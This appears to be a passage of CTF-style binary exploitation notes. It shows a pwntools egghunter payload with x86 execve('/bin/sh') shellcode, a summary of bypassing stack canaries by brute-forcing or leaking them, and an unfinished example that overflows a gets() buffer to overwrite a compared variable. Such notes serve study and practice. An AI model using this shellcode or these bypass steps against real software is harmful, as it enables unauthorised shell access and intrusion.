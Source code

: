 ```python
```

### The Egg

+ The 'egg' itself is simply a useful shellcode payload which we propend with our chosen 'unique' signature 

```python
# Repeat signature 2x for better luck
main_shellcode = p32(0x42424242)
main_shellcode += p32(0x42424242)

# /bin/sh
main_shellcode += asm('''
    xor eax, eax
    push eax     

    push 0x68732f2f   
    push 0x6e69622f 

    mov ebx, esp   
    push eax

    push ebx
    mov ecx, esp
    mov al, 0xb     

    int 0x80
''')
```

## Circumventing Memory Protections

+ For a more highlevel overview of what these memory protections do and how they affect exploitation see [memory protections](../../../Theory/MemoryProtections.md)

### Stack Canaries

+ If a custom canary is in place we can usually circumvent it in one of two ways
    + Bruteforce its value: if the binary is not available locally and/or the canary is generated at runtime 'randomly'
    + Leak its value: by reversing the binary if the canary is static in memory or via a [format string exploit](../../../Format%20Strings/Format%20Strings.md)
+ If we can do this then we need only overwrite the stack canary with the correct value in our payload and then replace the return pointer with one of our choosing

#### Example Circumventing A Custom Canary Given Binary

```python
r = process('./<binary>')

##############################################################################
'''

check_canary <-- main

    |
    |
    V

--> char *s
--> char *s1                        <-- W.T.B >> '1234' 
--> gets (s);
--> eax = strncmp (s1, "1234", 4);  <-- if s1[:b'4'] == '1234' = 0 -> win
--> gets(s)                         <-- overrun s to modify s1 
```